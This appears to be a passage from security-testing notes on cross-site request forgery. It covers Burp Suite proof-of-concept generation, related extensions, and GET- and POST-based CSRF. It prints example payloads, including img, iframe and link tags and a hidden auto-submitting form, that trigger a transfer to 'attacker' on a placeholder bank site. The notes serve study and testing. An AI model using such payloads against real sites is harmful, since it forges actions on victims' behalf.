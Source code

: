   - **Automated testing with Burp**
    - Generate CSRF PoC:
      - Right-click request → "Engagement tools" → "Generate CSRF PoC"
      - Modify template settings for different attack scenarios:
        - Toggle auto-submit option
        - Add delay before submission
        - Adjust encoding options
        - Test with various delivery methods (form, iframe, XHR)
    - Use Burp Scanner:
      - Scan specific requests or entire authenticated sessions
      - Review "Session handling" and "Access control" issues
      - Enable "Audit checks for CSRF" in scan configurations
      - Test with "Reflected parameters" detection enabled
    - Set up macros for chained request testing:
      - Record sequence of actions leading to sensitive function
      - Use session handling rules to maintain authentication
      - Configure intruder to fuzz CSRF protection parameters

  - **Burp extensions for CSRF**
    - CSRF Token Tracker: Monitors token generation patterns
    - Authorize: Tests requests across different user contexts
    - Token Revealer: Highlights token locations in responses
    - Session Timeout Test: Verifies token and session expiration
    - Param Miner: Discovers hidden parameters that might bypass protection

- **Types of CSRF with detailed parameters**
  - **GET-based CSRF**
    - Characteristics:
      - Simplest form using HTTP GET requests
      - URL parameters contain all necessary data
      - Can be executed without user interaction via various HTML elements
      - Most easily detected and mitigated
    - Attack vectors:
      - Image tags: `<img src="https://bank.com/transfer?to=attacker&amount=1000">`
      - Iframe loading: `<iframe src="https://bank.com/transfer?to=attacker&amount=1000" style="display:none"></iframe>`
      - Anchor tag navigation: `<a href="https://bank.com/transfer?to=attacker&amount=1000" target="_blank">Click here to claim prize</a>`
      - CSS resource loading: `<link rel="stylesheet" href="https://bank.com/transfer?to=attacker&amount=1000">`
      - Script source attribute: `<script src="https://bank.com/transfer?to=attacker&amount=1000"></script>`
    - Identification techniques:
      - Change HTTP method from POST to GET in requests
      - Check if parameters can be moved from body to URL
      - Test if query string parameters alone are sufficient
      - Verify if sensitive actions are accessible via GET

  - **POST-based CSRF**
    - Characteristics:
      - Uses HTTP POST requests with form data
      - Requires HTML forms or JavaScript to execute
      - Generally requires some user interaction or auto-submission
      - More common in secure applications that follow proper HTTP method usage
    - Attack vectors:
      - Auto-submitting forms:
        ```html
        <form id="csrf-form" action="https://bank.com/transfer" method="POST" style="display:none">
          <input type="hidden" name="recipient" value="attacker">
          <input type="hidden" name="amount" value="1000">
          <input type="submit" value="Submit">
        </form>
        <script>document.getElementById("csrf-form").submit();</script>
        ```